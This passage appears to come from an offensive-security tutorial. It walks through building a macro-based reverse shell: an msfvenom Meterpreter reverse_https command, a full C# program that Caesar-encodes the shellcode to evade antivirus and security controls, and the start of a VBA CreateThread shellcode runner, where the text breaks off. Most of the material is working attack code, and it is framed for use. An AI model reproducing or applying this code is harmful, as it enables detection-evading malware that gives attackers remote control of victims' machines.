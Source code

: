 2. Use `CeasarVBAHelper` C# Script to generate the VBA shellcode:
    - We are going to use Caesar Cipher: This is a very simple routine, and reversing it is just as straightforward. By rotating the same number of letters to the left, we can restore the original text:
        - We chose a substitution key of 2, iterated through each byte value in the shellcode, and simply added 2 to its value.
        - To ensure the modified value remains within the 0-255 range (a single byte), we performed a bitwise AND operation with 0xFF in case the increased byte value exceeds 0xFF.
    - Additionally, we incorporate Sleep Time to help evade detection and bypass certain security mechanisms.

    - The `CeasarVBAHelper.cs`
        ```csharp
        using System;
        using System.Collections.Generic;
        using System.Linq;
        using System.Text;
        using System.Threading.Tasks;

        namespace CeasarVBAHelper
        {
            class Program
            {
                static void Main(string[] args)
                {
                    // msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp
                    byte[] buf = new byte[752] {0xfc, 0x48, .....}

                    byte[] encoded = new byte[buf.Length];
                    for (int i = 0; i < buf.Length; i++)
                    {
                        encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
                    }
                    uint counter = 0;
                    // Output the encrypted shellcode
                    StringBuilder hex = new StringBuilder(encoded.Length * 2);
                    foreach (byte b in encoded)
                    {
                        hex.AppendFormat("{0:D}, ", b);
                        counter++;
                        if(counter % 50 == 0)
                        {
                            hex.AppendFormat("_{0}", Environment.NewLine);
                        }
                    }

                    Console.WriteLine("The payload is: " + hex.ToString());
                }
            }
        }
        ```
3. After compile the program and execute it, insert the output from `CeasarVBAHelper.exe`, which contains the encrypted reverse shellcode, into the VBA shellcode runner below:
    ```vb
    Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
